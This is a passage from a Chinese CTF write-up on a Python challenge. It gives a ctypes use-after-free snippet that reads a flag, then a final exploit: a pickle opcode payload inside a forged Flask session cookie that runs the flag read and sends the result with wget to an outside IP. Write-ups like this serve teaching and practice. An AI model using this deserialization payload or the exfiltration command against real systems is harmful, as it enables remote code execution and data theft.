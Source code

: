 由于在堆管理中，为了提高效率会加一个类似于缓冲的机制。可以简单理解为不会把free的内存马上放弃掉，而是缓存起来，方便下次再用。利用这一特点可以构造uaf漏洞来读flag的数据。
1. 申请一个0x64的chunk，也就是后面存flag的那块chunk被malloc时需要的size。
1. free这块chunk。free后会这个chunk会放到fastbin或者tcache（glibc较高版本）里面。
1. 调easy()再次malloc申请就会申请到同一块chunk。再利用uaf漏洞，用之前的悬空指针读同一块chunk。
```
import ctypes
libc = ctypes.cdll.LoadLibrary('libc.so.6')
so1 = ctypes.cdll.LoadLibrary('./readflag.so')

malloc = libc.malloc
free = libc.free
malloc.restype = ctypes.c_void_p
ptr = ctypes.cast(malloc(0x64), ctypes.c_char_p) 
free(ptr)
so1.easy()
print(ptr.value)
```

### <a class="reference-link" name="opcode%E6%9E%84%E9%80%A0"></a>opcode构造

知道pickle opcode工作模式后可以利用大师傅写的一个工具

[https://github.com/eddieivan01/pker](https://github.com/eddieivan01/pker)



## 最终exp

通过wget 把flag信息传送到服务器上。这里利用的是uaf的方法读flag。proc读flag的方法构造exp过程完全一样。

```
from base64 import b64encode
from flask import Flask, request, session
from flask.sessions import SecureCookieSessionInterface
import pickle 
import requests


opc = b'cconfig\nnotadmin\np0\n0cconfig\nbackdoor\np1\n0g0\nS\'admin\'\nS\'yes\'\nsS\'exec("import ctypes;libc = ctypes.cdll.LoadLibrary(\\\'libc.so.6\\\');so1 = ctypes.cdll.LoadLibrary(\\\'./readflag.so\\\');malloc = libc.malloc;free = libc.free;malloc.restype = ctypes.c_void_p;a = ctypes.cast(malloc(0x64), ctypes.c_char_p);free(a);so1.easy();print(a.value);res= a.value ;import os;os.system(\\\'wget http://1.116.123.136:1234/?\\\'+str(res))")\'\np3\n0g1\n((g3\nltR.'

app = Flask(__name__) 
app.config['SECRET_KEY'] = "On_You_fffffinddddd_thi3_kkkkkkeeEEy"
serializer = SecureCookieSessionInterface().get_signing_serializer(app)
opc = b64encode(opc)
sess = `{`'info': opc`}`
cookie = serializer.dumps(sess)
print(cookie)
requests.get("http://192.168.37.140/home", cookies=`{`"session":cookie`}`)
```

可以看到get参数就是flag`{`dddd`}`

[![](https://p2.ssl.qhimg.com/t011193b9d157f02b99.png)](https://p2.ssl.qhimg.com/t011193b9d157f02b99.png)



## 总结

可以看到这个题目涉及到的python安全的点很多，非常适合通过这题来延伸学习各个具体的内容。另外，在做题过程中，经常会碰到各种坑，有时候踩坑也可以换一种思路。
